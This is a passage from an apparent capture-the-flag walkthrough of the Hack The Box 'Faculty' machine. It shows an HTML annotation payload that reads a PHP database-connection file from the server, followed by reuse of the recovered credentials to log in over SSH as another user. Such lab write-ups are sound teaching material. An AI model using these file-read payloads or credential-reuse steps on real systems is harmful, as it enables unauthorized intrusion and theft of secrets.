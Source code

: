 ![db_connect in admin_class](/assets/hackthebox/faculty/admin_class.png)

In that file there must a database credentials. We download it with our exploit and open it.

```html
<annotation file="/var/www/scheduling/admin/db_connect.php" content="/var/www/scheduling/admin/db_connect.php" icon="Graph" title="Attached File: /var/www/scheduling/admin/db_connect.php" pos-x="195" />
```

![database credentials](/assets/hackthebox/faculty/db_credentials.png)

Now we can try to use this credentials in SSH. They won't work for a user developer, but will with the gbyolo user.

```zsh
┌──(kali㉿workstation)-[~/Faculty]
└─$ ssh gbyolo@faculty 
gbyolo@faculty's password: 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-121-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Aug  9 17:36:12 CEST 2022

  System load:  0.0               Processes:             222
  Usage of /:   74.9% of 4.67GB   Users logged in:       0
  Memory usage: 34%               IPv4 address for eth0: 10.10.11.169
  Swap usage:   0%


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

You have mail.
gbyolo@faculty:~$
```

